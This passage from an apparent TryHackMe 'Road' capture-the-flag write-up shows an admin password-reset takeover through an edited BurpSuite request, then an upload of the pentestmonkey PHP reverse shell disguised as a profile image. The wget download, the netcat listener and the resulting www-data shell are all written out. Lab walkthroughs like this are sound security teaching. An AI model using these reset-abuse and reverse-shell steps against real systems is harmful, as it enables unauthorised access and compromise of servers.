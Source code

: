 ![road2.PNG](./img/road2.PNG "road2.PNG")

So it appears `admin@sky.thm` is the admin's username.  Let's edit and send our request in BurpSuite and see if we can reset their password.

```
-----------------------------405822916729765861991076770438
Content-Disposition: form-data; name="uname"


admin@sky.thm
```

After sending this, we are able to log in as the admin with the password we set!

---
## Web App - Shell

A lot of the functionality seems to be unimplemented or missing.  I thought first the Upload Manifest would be a good option, but the link doesn't work.

Going back to the user profile, there's a place at the bottom to upload a profile image.  Since we know the site is running PHP from the buster output, let's try to upload a PHP reverse shell.

We'll use [this one](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), making sure to change the IP and port in the script.

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ ls           
buster.txt
                                    
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
                                                                       
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ vim php-reverse-shell.php 
                                                                                                 
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ mv php-reverse-shell.php coolpic.php 
```

It took me a while to see where it uploaded to, but eventually I found a comment on the profile page (via BurpSuite, couldn't view source in the browser for some reason).

```
<!-- /v2/profileimages/ -->
```

Make sure to set your listener.  This gets us a shell as the web user.

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ nc -lvnp 4444                      
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.49.152] 53518
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:29:00 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
```